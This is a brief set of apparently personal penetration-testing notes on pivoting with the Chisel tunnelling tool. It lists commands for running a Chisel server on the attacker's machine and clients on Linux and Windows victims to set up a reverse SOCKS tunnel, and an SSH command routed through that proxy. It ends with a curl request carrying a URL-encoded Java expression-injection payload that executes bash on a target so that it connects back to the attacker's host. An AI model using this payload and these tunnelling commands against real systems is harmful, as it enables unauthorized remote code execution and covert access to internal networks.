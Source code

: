### Chisel

Client/server model
chisel server on kali, chisel client on victim

chisel server --port 8080 --reverse
```
On Client 

/tmp/chisel client 192.168.45.238:8080 R:socks > /dev/null 2>&1 &

On Server
chisel server --port 8080 --reverse

Windows client 
chisel.exe client 192.168.45.181:9090 R:socks


ssh -o ProxyCommand='ncat --proxy-type socks5 --proxy 127.0.0.1:1080 %h %p' database_admin@10.4.50.215
```

curl http://192.168.218.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27/tmp/chisel%20client%20192.168.45.238:8080%20R:socks%27%29.start%28%29%22%29%7D/